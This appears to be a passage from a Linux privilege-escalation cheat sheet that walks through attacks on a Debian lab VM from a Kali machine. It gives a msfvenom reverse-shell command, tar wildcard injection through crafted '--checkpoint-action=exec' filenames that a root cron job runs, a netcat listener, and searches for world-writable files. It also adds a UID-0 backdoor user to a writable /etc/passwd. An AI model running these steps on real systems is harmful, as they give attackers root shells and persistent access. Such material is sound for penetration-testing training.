 Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

chmod +x /home/user/shell.elf

Create these two files in /home/user:

touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

nc -nvlp 4444
&nbsp;


## Writable files

List world writable files on the system.

```
find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```
```
find / -perm -2 -type f 2>/dev/null
```
```
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### WRITABLE /ETC/PASSWD

First generate a password with one of the following commands.

```
openssl passwd -1 -salt hack hack
mkpasswd -m SHA-512 hack
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user  `hack`  and add the generated password.

```
hack:GENERATED_PASSWORD_HERE:0:0:Hack:/root:/bin/bash
```

E.g:  `hack:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hack:/root:/bin/bash`

You can now use the  `su`  command with  `hack:hack`
